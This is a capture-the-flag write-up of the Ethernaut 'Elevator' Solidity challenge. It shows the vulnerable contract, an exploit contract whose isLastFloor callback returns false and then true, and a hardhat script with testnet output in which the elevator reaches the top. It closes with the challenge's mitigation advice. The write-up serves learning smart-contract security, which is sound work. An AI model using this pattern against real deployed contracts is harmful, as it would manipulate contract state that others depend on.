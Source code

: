```yaml
---
title: "Ethernaut #11 Elevator"
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Elevator challenge writeup
---
```


## Elevator

### Challenge

This elevator won't let you reach the top of your building. Right?

#### Things that might help:

* Sometimes solidity is not good at keeping promises.
* This `Elevator` expects to be used from a `Building`.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### Background

This is a very simple attack. We need to keep in mind that as long as we follow the `Building` `interface` then the `Elevator` can interact with our contract. However, since the `Building` contract is under the attackers control, there is no limit regarding what else the contract can do.

### Attack

Create a contract that satisfies the the `Building` `interface` but flips its response each time. Make sure that `isLastFloor` will respond `false` the first time, and `true` the second. This will make the first call that checks if its the top floor say its not, and the second that sets the `top` variable say it is.

* Create a contract that implements `isLastFloor` but returns `false` the first time and `true` the second
* Call the `goTo` function through the attacker controlled contract


#### ElevatorSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Elevator.sol';

contract ElevatorSolve {

    Elevator elevatorContract;
    bool lastFloor;

    constructor(address payable _elevatorAddress) public {
        elevatorContract = Elevator(_elevatorAddress);
        lastFloor = true;
    }
    
    function isLastFloor(uint) external returns (bool) {
        lastFloor = !lastFloor;
        return lastFloor;
    }

    function goTo (uint _floor) public {
        elevatorContract.goTo(_floor);
    }

}
```

#### elevator-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    elevatorAddress = "0xe8cAdc8eA3A2D55907409cc18a3bB4a71f356379";
    contract = await ethers.getContractAt("Elevator", elevatorAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];
    
    ElevatorSolve = await ethers.getContractFactory("ElevatorSolve");
    elevatorSolve = await ElevatorSolve.deploy(contract.address);
    await elevatorSolve.deployed();

    console.log("Initial Floor: " + await contract.floor())
    console.log("Initial Top  : " + await contract.top())

    // call the goTo function to trigger the attack
    tx = await elevatorSolve.connect(account).goTo(2)
    receipt = await tx.wait()

    console.log("Floor        : " + await contract.floor())
    console.log("Top          : " + await contract.top())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/elevator-solve.js --network rinkeby
Initial Floor: 0
Initial Top  : false
Floor        : 2
Top          : true
```

### Success Message

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.
